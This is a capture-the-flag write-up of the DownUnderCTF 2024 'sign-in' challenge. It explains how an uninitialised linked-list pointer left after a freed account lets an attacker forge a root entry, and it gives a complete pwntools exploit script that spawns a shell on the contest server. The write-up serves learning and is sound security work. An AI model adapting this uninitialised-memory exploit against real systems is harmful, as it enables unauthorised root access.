




## Prologue

Difficulty: easy

Category: binary exploitation

Solved: 95

!!! quote "Description"
    Please sign in as root to get a shell.

Input files:

??? info "sign-in.c"
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/random.h>
    
    typedef struct {
        long uid;
        char username[8];
        char password[8];
    } user_t;
    
    typedef struct user_entry user_entry_t;
    struct user_entry {
        user_t* user;
        user_entry_t* prev;
        user_entry_t* next;
    };
    
    user_entry_t user_list;
    long UID = 1;
    
    void init() {
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
    }
    
    int menu() {
        int choice;
        puts("1. Sign up");
        puts("2. Sign in");
        puts("3. Remove account");
        puts("4. Get shell");
        printf("> ");
        scanf("%d", &choice);
        return choice;
    }
    
    void sign_up() {
        user_t* user = malloc(sizeof(user_t));
        user_entry_t* entry = malloc(sizeof(user_entry_t));
        user->uid = UID++;
        printf("username: ");
        read(0, user->username, 8);
        printf("password: ");
        read(0, user->password, 8);
        entry->user = user;
    
        user_entry_t* curr = &user_list;
        while(curr->next) {
            curr = curr->next;
        }
        entry->prev = curr;
        curr->next = entry;
    }
    
    void remove_account(int uid) {
        user_entry_t* curr = &user_list;
        do {
            if(curr->user->uid == uid) {
                if(curr->prev) {
                    curr->prev->next = curr->next;
                }
                if(curr->next) {
                    curr->next->prev = curr->prev;
                }
                free(curr->user);
                free(curr);
                break;
            }
            curr = curr->next;
        } while(curr);
    }
    
    long sign_in() {
        char username[9] = {0};
        char password[9] = {0};
        printf("username: ");
        read(0, username, 8);
        printf("password: ");
        read(0, password, 8);
        user_entry_t* curr = &user_list;
        do {
            if(memcmp(curr->user->username, username, 8) == 0 && memcmp(curr->user->password, password, 8) == 0) {
                printf("Logging in as %s\n", username);
                return curr->user->uid;
            }
            curr = curr->next;
        } while(curr);
        return -1;
    }
    
    int main() {
        init();
    
        long uid = -1;
        user_t root = {
            .uid = 0,
            .username = "root",
        };
        if(getrandom(root.password, 8, 0) != 8) {
            exit(1);
        }
    
        user_list.next = NULL;
        user_list.prev = NULL;
        user_list.user = &root;
    
        while(1) {
            int choice = menu();
            if(choice == 1) {
                sign_up();
            } else if(choice == 2) {
                uid = sign_in();
                if(uid == -1) {
                    puts("Invalid username or password!");
                }
            } else if(choice == 3) {
                if(uid == -1) {
                    puts("Please sign in first!");
                } else {
                    remove_account(uid);
                    uid = -1;
                }
            } else if(choice == 4) {
                if(uid == 0) {
                    system("/bin/sh");
                } else {
                    puts("Please sign in as root first!");
                }
            } else {
                exit(1);
            }
        }
    }
    ```
    
* [sign-in binary](https://github.com/DownUnderCTF/Challenges_2024_Public/blob/f2797a33d8f5851508f37e854afceedf85eee8a3/pwn/sign-in/src/sign-in)

NB:


* Following indices bases system is used to avoid ambiguity. Whenever element of a collection is referenced by **number**, 0-based index implied. 
 
  Ie, element `0` of list `[1, 2, 4, 8, 16]` is `1`, Element `3` is `8`.
  
  When element is reference in explanation with **word** (first, third...), 1-based system is implied.

  Ie, first character of string `Hello World!` is `H`, fifth is `o`.

* Solution code was redacted for readability purposes. Due to time pressure during the competition I was using a lot of one-letter variables and questionable code structure.

* I am using gdb with [pwndbg](https://github.com/pwndbg/pwndbg) plugin

## My struggle

### Analysis

`user_entry` structure is a typical implementation of doubly linked list ([wiki](https://en.wikipedia.org/wiki/Doubly_linked_list)).

```c
struct user_entry {
    user_t* user;
    user_entry_t* prev;
    user_entry_t* next;
};
```

Example of memory layout of 3 user_entries (0x100000, 0x100040, 0x100080) with 3 user accounts (0x100020, 0x100060, 0x1000a0 (root, bob and alice)):



New entries created during signup:

```c
void sign_up() {
    user_t* user = malloc(sizeof(user_t));
    user_entry_t* entry = malloc(sizeof(user_entry_t));  # we allocate memory for user_entry
    user->uid = UID++;
    printf("username: ");
    read(0, user->username, 8);
    printf("password: ");
    read(0, user->password, 8);
    entry->user = user;                                  # we set field 'user' of the entry

    user_entry_t* curr = &user_list;
    while(curr->next) {
        curr = curr->next;
    }
    entry->prev = curr;                                  # we set field 'prev' of the entry  
    curr->next = entry;
}
```

`sign_up` function sets values for `user` and `prev` fields, but it doesn't initialize value of `next` field. According to language specification,
value of the uninitialized variable is undeterminate. In practice, it will be the value that was in the RAM before allocation.
This value will be interpreted as address of the next entry in the list.

List traversal of the `sign_in` function will go to this "undeterminate" address and interpret that memory as `user_entry` structure.

```c
long sign_in() {
    char username[9] = {0};
    char password[9] = {0};
    printf("username: ");
    read(0, username, 8);
    printf("password: ");
    read(0, password, 8);
    user_entry_t* curr = &user_list;    # set curr variable to the head of the list 
    do {
                                        # read username and password from curr entry 
        if(memcmp(curr->user->username, username, 8) == 0 && memcmp(curr->user->password, password, 8) == 0) {
            printf("Logging in as %s\n", username);
            return curr->user->uid;
        }
        curr = curr->next;              # set curr variable to the next entry
    } while(curr);                      # use of uninitialized memory: check if its not null - continue iteration
    return -1;
}
```

When we delete user, memory would look like:

* 2 user_entries with addresses 0x100000, 0x100040
* 2 user accounts with addresses 0x100020, 0x100060 (root, bob)
* two recycled memory blocks that will be available for view allocations: 0x100080, 0x1000a0



Note that recycled memory is not zeroed out, it still contains data.

Now if we create a new user, recycled memory 0x100080 and 0x1000a0 will be reused for user account and user entry. Note that last
freed blocked in `remove_account` item will be used first by malloc in sign_up (LIFO, effectively swaping addresses of user_entry and user account).
This change is highlighted compared to _figure 1_:



### Exploit

As you can see on figure3, password of deleted user is used as address of the next user entry. So our plan is:

1. Find memory address that can be interpreted as user entry for account with id 0 and username and password that we know.
2. Create user account using address from step 1 as a password.
3. Delete the account.
4. Create new account, this will trigger the exploit and create new entry with uninitialized `next` value. It will be address we selected in step 1. Not so "undeterminate", huh?
5. Sign in with username and password that we got in step 1.

**Step 1**: scan memory

We are looking for address that points to user account structure:
```c
typedef struct {
    long uid;
    char username[8];
    char password[8];
}
```
Uid should be 0, and username and password any as long as we know it. 

Time to check binary protection:
```bash
$ checksec --file=app                        
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   54 Symbols        No    0               2               app
```

PIE is disabled. This means code will be loaded always to the same addresses. This looks like the best place to look for pointer to 
user account as its value will be same every time app launched.

Module entry point is 0x400000, we can see it in process mapping:
```bash hl_lines="2"
$ cat /proc/5539/maps
00400000-00401000 r--p 00000000 08:01 1209740                            /home/kali/Downloads/app
00401000-00402000 r-xp 00001000 08:01 1209740                            /home/kali/Downloads/app
00402000-00403000 r--p 00002000 08:01 1209740                            /home/kali/Downloads/app
00403000-00404000 r--p 00002000 08:01 1209740                            /home/kali/Downloads/app
00404000-00405000 rw-p 00003000 08:01 1209740                            /home/kali/Downloads/app
7f70658c0000-7f70658c3000 rw-p 00000000 00:00 0 
7f70658c3000-7f70658e9000 r--p 00000000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f70658e9000-7f7065a40000 r-xp 00026000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a40000-7f7065a95000 r--p 0017d000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a95000-7f7065a99000 r--p 001d1000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a99000-7f7065a9b000 rw-p 001d5000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a9b000-7f7065aa8000 rw-p 00000000 00:00 0 
7f7065ac9000-7f7065acb000 rw-p 00000000 00:00 0 
7f7065acb000-7f7065acc000 r--p 00000000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065acc000-7f7065af1000 r-xp 00001000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065af1000-7f7065afb000 r--p 00026000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065afb000-7f7065afd000 r--p 00030000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065afd000-7f7065aff000 rw-p 00032000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffe04ef5000-7ffe04f16000 rw-p 00000000 00:00 0                          [stack]
7ffe04fc4000-7ffe04fc8000 r--p 00000000 00:00 0                          [vvar]
7ffe04fc8000-7ffe04fca000 r-xp 00000000 00:00 0                          [vdso]
```

Script to find address that points to memory that can be interpreted as user account with id 0:

```python title="script.py"
# start scan of memory at base address of the application
module_start = 0x400000
# we only interested in readonly memory (24 bytes padding for safety as user structure is 24 bytes long)
module_end = 0x404000 - 24

# iterate over memory addresses
for i in range(module_start, module_end):
    # read value stored at i (unpack convertes from little endian byte array into int)
    addr = unpack(elfexe.read(i, 8))
    # if value i is a number in range module_start..module_end it can be interpreted as address.
    # Also check value that address i is pointing to, target application will treat that value as user ID.
    # We are looking for user ID equal to 0
    if module_start < addr < module_end and unpack(elfexe.read(addr, 8)) == 0:
        fake_root_entry = i
        break

# use fake user entry that we found to calculate user account details
fake_account_address = unpack(elfexe.read(fake_root_entry, 8))
# first field of user structuture is user ID 8 bytes
fake_account_id = unpack(elfexe.read(fake_account_address, 8))
# second field (offset 8) in user structure is username 8 bytes
fake_account_username = elfexe.read(fake_account_address + 8, 8)
# third field (offset sum of length previous files 8 + 8) in user structure is password 8 bytes
fake_account_password = elfexe.read(fake_account_address + 16, 8)

print(f"fake entry address {hex(fake_root_entry)}")
print(f"{fake_account_id=}")
print(f"fake account username {binascii.hexlify(fake_account_username)}")
print(f"fake account password {binascii.hexlify(fake_account_password)}")
```

```bash title="output.txt"
fake entry address 0x403eb8
fake_account_id=0
fake account username b'0000000000000000'
fake account password b'0000000000000000'
```

**Steps 2-5**: exploit

I used pwntools to automate necessary steps (account creation, sign in, deletion etc...):

```python
io.recvuntil(b"> ")                 # wait till target application is initialized
io.sendline(b'1')                   # enter choice 1 - create account
io.recvuntil(b":")                  # wait username prompt
io.sendline(b"one")                 # enter username
io.recvuntil(b":")                  # wait password prompt
io.sendline(pack(fake_root_entry))  # send address as fake root entry as password (converting into little endian)
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'2')                   # enter choice 2 - sign in
io.recvuntil(b":")                  # wait username prompt
io.sendline(b"one")                 # enter username
io.recvuntil(b":")                  # wait password prompt
io.sendline(pack(fake_root_entry))  # enter password
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'3')                   # enter choice 3 - remove account
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'1')                   # enter choice 1 - create account
io.recvuntil(b":")                  # wait username prompt
io.sendline(b"two")                 # enter username
io.recvuntil(b":")                  # wait password prompt
io.sendline(b"two")                 # enter password
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'2')                   # enter choice 2 - signup
io.recvuntil(b":")                  # wait username prompt
# enter username and password of our fake user account
# note that both fields are concatenated.
# if we use sendline(fake_account_username) then sendline(fake_account_password)
# then first sendline would append '\n' and password wont match
io.sendline(fake_account_username + fake_account_password)
io.recvuntil(b"> ")                 # wait prompt
io.sendline(b'4')                   # enter choice 4 - Get shell
```

And full script:

??? success "solve.py"
    ```py
    from pwn import *
    
    context.binary = elfexe = ELF('./app') 
    libc = elfexe.libc 
    
    context.log_level = 'warn'
    
    arguments = []
    if args['REMOTE']:
        remote_server = '2024.ductf.dev' 
        remote_port = 30022  
        io = remote(remote_server, remote_port)
    else:
        io = process([elfexe.path] + arguments)
    
    # start scan of memory at base address of the application
    module_start = 0x400000
    # we only interested in readonly memory (16 bytes padding for safety as user structure is 24 bytes long)
    module_end = 0x404000 - 24
    
    # iterate over memory addresses
    for i in range(module_start, module_end):
        # read value stored at i (unpack convertes from little endian byte array into int)
        addr = unpack(elfexe.read(i, 8))
        # if value i is address in range module_start..module_end
        # then read value that i is pointing to - its user ID, if user ID is 0 then we found good address
        # to use as fake user entry
        if module_start < addr < module_end and unpack(elfexe.read(addr, 8)) == 0:
            fake_root_entry = i
            break
    
    # use fake user entry that we found calculate user account details
    fake_account_address = unpack(elfexe.read(fake_root_entry, 8))
    fake_account_id = unpack(elfexe.read(fake_account_address, 8))
    fake_account_username = elfexe.read(fake_account_address + 8, 8)
    fake_account_password = elfexe.read(fake_account_address + 16, 8)
    
    print(f"fake entry address {hex(fake_root_entry)}")
    print(f"{fake_account_id=}")
    print(f"fake account username {binascii.hexlify(fake_account_username)}")
    print(f"fake account password {binascii.hexlify(fake_account_password)}")
    
    io.recvuntil(b"> ")                 # wait till target application initialised
    io.sendline(b'1')                   # enter choice 1 - create account
    io.recvuntil(b":")                  # wait username prompt
    io.sendline(b"one")                 # enter username
    io.recvuntil(b":")                  # wait password prompt
    io.sendline(pack(fake_root_entry))  # send address as fake root entry as password (converting into little endian)
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'2')                   # enter choice 2 - sign in
    io.recvuntil(b":")                  # wait username prompt
    io.sendline(b"one")                 # enter username
    io.recvuntil(b":")                  # wait password prompt
    io.sendline(pack(fake_root_entry))  # enter password
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'3')                   # enter choice 3 - remove account
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'1')                   # enter choice 1 - create account
    io.recvuntil(b":")                  # wait username prompt
    io.sendline(b"two")                 # enter username
    io.recvuntil(b":")                  # wait password prompt
    io.sendline(b"two")                 # enter password
    io.recvuntil(b"> ")                 # wait prompt
    io.sendline(b'2')                   # enter choice 2 - signup
    io.recvuntil(b":")                  # wait username prompt
    # enter username and password of the fake entity that has id 0
    # note that both fields are concatenated.
    # if we use sendline(fake_account_username) then sendline(fake_account_password)
    # then because sendline appends '\n' it would be treated as part of password and sign in fails
    io.sendline(fake_account_username + fake_account_password)
    io.recvuntil(b"> ")                 # failed prompt
    io.sendline(b'4')                   # enter choice 4 - Get shell
    
    # we should have remove shell now - switch to interactive mode
    io.interactive()
    io.close()
    ```

## Epilogue

* Official website: [https://downunderctf.com/](https://downunderctf.com/)
* Official writeups: https://github.com/DownUnderCTF/Challenges_2024_Public

*[PIE]: Position Independent Executable
*[LIFO]: Last In First Out
